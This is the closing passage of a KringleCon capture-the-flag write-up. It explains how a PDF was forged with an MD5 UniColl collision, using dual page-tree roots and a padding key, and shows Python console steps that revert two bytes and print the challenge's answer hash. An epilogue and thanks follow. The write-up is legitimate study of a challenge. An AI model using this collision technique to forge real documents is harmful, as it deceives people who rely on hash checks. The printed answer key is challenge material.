    QED. Two byte changes are left for the PDF modification, so this is most likely again UniColl. To see what might 
    have happened, it helps to examine the pdf in a plain text editor:
  </p>
  
  <p>
    Several oddities are noticeable: First off the catalog at lines 5-7 contains binary content which should 
    definitely not be there. It also contains the keys <code>/_Go_Away/Santa</code>, probably not part of the official PDF 
    standard. Next, there are two separate root nodes for the page tree at lines 11 and 15 (they must be root 
    nodes, because they lack a <code>/Parent</code>), and a document should only have one. Each of these points to a single, 
    different child page. Finally, there is added binary content at the end of the file, behind the %%EOF marker.
  </p>
  <div class="hangright">
    
  </div>
  <p>
    The two alternate root notes would be a clever way to change the shown PDF content completely with a 
    single byte change, by pointing at one or the other from the catalog with <code>/Pages <mark>2</mark> 0 R</code> 
    or <code>/Pages <mark>3</mark> 0 R</code>. A look at the hex listing of the block confirms that the root 
    node reference in the catalog lies at 0x109, exactly 10 bytes behind a 64 byte chunk boundary, meaning it can be 
    manipulated with UniColl. The extra key <code>/_Go_Away/Santa</code> was designed to move it there, and the 
    binary junk is UniCollateral damage which is ignored by lenient PDF viewers. Continuing in the python console
    to change bytes 0x109 and 0x149 back to the original
  </p>
  <pre class="prettyprint lang-python">
>>> jack[0x109] += 1
>>> jack[0x149] -= 1
>>> hash_final = MD5.new()
>>> hash_final.update(jack)
>>> hash_final.hexdigest()
'b10b4a6bd373b61f32f4fd3a0cdfbf84'
>>> hash_sha256 = SHA256.new()
>>> hash_sha256.update(jack)
>>> hash_sha256.hexdigest()
'<mark>fff054f33c2134e0230efb29dad515064ac97aa8c68d33c58c01213a0d408afb</mark>'</pre>
  <p>
    confirms the theory and spits out the answer to objective 11b. The original PDF makes interesting reading and 
    fills in the story. Pretty cool social engineering ... this also explains why all the text content in the 
    manipulated PDF is stream encoded, so that the original content cannot be read too easily.  
  </p>
  

 

  <h2 id="epilogue">Epilogue</h2>
  
  <p>
    Just in time, Santa has been defrosted for good, and the holiday has been saved. 
    The balcony in Santa's office is now unlocked, and outside Santa awaits together
    with a rather frosty looking Jack clad in orange, ready for prison. No ominous notes this 
    time, it seems ...
  </p>
  <div class="quote"> 
    <div class="name">Santa:</div>
    Thank you for foiling Jack’s foul plot!
    He sent that magical portrait so he could become me and destroy the holidays!
    Due to your incredible work, you have set everything right and saved the holiday season!
    Congratulations on a job well done!
  </div>
  <p></p>
  <div class="quote"> 
    <div class="name">Jack Frost:</div>
    My plan was NEARLY perfect… but I never expected someone with your 
    skills to come around and ruin my plan for ruining the holidays!
    And now, they’re gonna put me in jail for my deeds.
  </div>
  <p>
    Many thanks to Ed Skoudis and all the other makers of Kringlecon for creating 
    a wonderful holiday experience in an otherwise rather dreary year. As before,
    there were interesting talks, tough challenges and some very nice music, and 
    the official Discord site was an excellent addition, creating a lively group
    feeling! Many thanks also too all the Discorders who patiently gave hints and
    provided insights without revealing too much! The hardest nut to crack for me
    was ARP Shenanigans. It really speaks for the challenge design that someone 
    without much of a clue about packet layer was able to battle on and get 
    through, learning a huge amount on the way. The greatest temptation now is 
    probably to go buy a Proxmark :-)
  </p>
  <p>
    Hope to be back next year!
  </p>
  <div class="framed" style="text-align: center;">
    KringleCon back at the castle, set the stage... <br>
    But it's under construction like my GeoCities page. <br>
    Feel I need a passport exploring on this platform - <br>
    Got half floors with back doors provided that you hack more! <br>
    Heading toward the light, unexpected what you see next: <br>
    An alternate reality, the vision that it reflects. <br>
    Mental buffer's overflowing like a fast food drive-thru trash can. <br>
    Who and why did someone else impersonate the big man? <br>
    You're grepping through your brain for the portrait's "JFS" <br>
    "Jack Frost: Santa," he's the villain who had triggered all this mess! <br>
    Then it hits you like a chimney when you hear what he ain't saying: <br>
    Pushing hard through land disputes, tryin' to stop all Santa's sleighing. <br>
    All the rotting, plotting, low conniving streaming from that skull. <br>
    Holiday Hackers, they're no slackers, returned Jack a big, old null!
  </div>  
</div>
</body>
</html>
